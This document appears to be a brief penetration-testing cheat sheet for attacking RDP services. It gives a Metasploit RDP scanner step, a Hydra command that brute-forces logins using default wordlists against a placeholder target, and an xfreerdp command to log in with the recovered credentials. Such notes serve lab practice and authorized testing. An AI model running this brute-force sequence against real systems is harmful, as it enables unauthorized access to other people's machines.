 # VIA METASPLOIT 

search RDP_scanner
choose module: auxiliary/scanner/rdp/rdp_scanner -> Set RHOST and RPORT

## Obtain credentials for RDP 

Hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwrods.txt rdp://TARGET -s RPORT

## Authentication 

Xfreerdp /u:USER /p:PASSWORD /v:TARGET:RPORT
